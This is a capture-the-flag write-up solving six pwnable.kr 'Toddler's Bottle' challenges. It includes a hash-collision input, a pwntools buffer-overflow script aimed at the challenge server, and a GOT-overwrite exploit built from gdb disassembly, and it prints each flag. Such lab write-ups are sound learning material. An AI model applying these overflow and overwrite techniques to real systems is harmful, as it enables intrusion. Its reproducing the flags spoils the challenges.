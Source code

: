 # Toddler's Bottle

## fd
use 4660 as argument(-> fd = 4660 - 0x1234 = 0 = stdin)
and then enter 'LETMEWIN'  
**Flag**  
mommy! I think I know what a file descriptor is!!

## collision
We need to insert string the when sum up as integer will equal to 
Choose one of the input from the output of this [python script](https://gist.github.com/bom2013/63ec0bc880f6a82e775d9dce7a2358fe), for example the generated arg for 'P' letter
```bash
col@pwnable:~$ python3 /tmp/collision_arg_generator.py
....
-----
Test P
Oh yeh!
0x50505050 0x50505050 0x50505050 0x50505050 0xe09bc8ac
...
col@pwnable:~$ ./col `printf "PPPPPPPPPPPPPPPP\xac\xc8\x9b\xe0"`
```  
**Flag**  
daddy! I just managed to create a hash collision :)

## bof
Simple buffer overflow, I try to do it directedly from the shell without success, so do it with python `pwntools` lib
```python
from pwn import *

message = 'a'*52 + "\xbe\xba\xfe\xca"
nc = remote("pwnable.kr",9000)
nc.send(message)
nc.interactive()
```  
**Flag**  
daddy, I just pwned a buFFer :)

## flag
Use 'strings' to search which packer -> UPX  
Use 'upx -d flag' to unpack  
Use 'string' to find the flag  
**Flag**  
UPX...? sounds like a delivery service :)


## passcode
When gcc the file get warning about pass 'int' and not 'int *'  
This means writing to a value that is in the variable 'passcode1'-> Junk seemingly  
Is there a way to change it before we get there and thus write to the good place?  
In the "welcome" function(Which performed before login function) we write to 'name', by using gdb you see the location of **'name'** variable in the stack:
```shell
(gdb) disas welcome
Dump of assembler code for function welcome:
   ...
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   ...
End of assembler dump.
```
-> &name = ebp-0x70  
welcome and login using the same stack...  
lets see the location of **'passcode1'** in the stack using gdb:
```shell
(gdb) disas login
Dump of assembler code for function login:
   ...
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   ...
End of assembler dump.
```
-> &passcode1 = ebp-0x10  
-> the distance between them is 0x70-0x10 = 96, we can write 100 -> we can overwrite 4 byte of passcode1 -> Yoo!  
What will we write? We want to put a value of a place in the memory that we then jump from, Fortunately we have a call to the **fflush** function that is not executed directly but through the plt mechanism so we have a jump:
```shell
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    *0x804a004
   0x08048436 <+6>:     push   $0x8
   0x0804843b <+11>:    jmp    0x8048410
End of assembler dump.
```
So if we put the value 0x804a004 in passcode before we get input to him, when we will get the the point we put input we can insert the address we want the program to jump to.  
Lets find this address using gdb:
```shell
(gdb) disas login
Dump of assembler code for function login:
   ...
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)   # "/bin/cat flag"
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   ...
End of assembler dump.
```
So, we will put 96 garbage chars and than 0x0804a004 to **'name'** and then enter 0x080485e3 to passcode1:
```shell
passcode@pwnable:~$ python -c "print 'A'*96 + '\x04\xa0\x04\x08' + str(int('0x080485e3', 16))" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```  
**Flag**  
Sorry mom.. I got confused about scanf usage :(


## random
rand() without seed -> always the same series of numbers ...  
The series begins with 1804289383  
-> 0xdeadbeef ^ 1804289383 = 3039230856  
**Flag**  
Mommy, I thought libc random is unpredictable...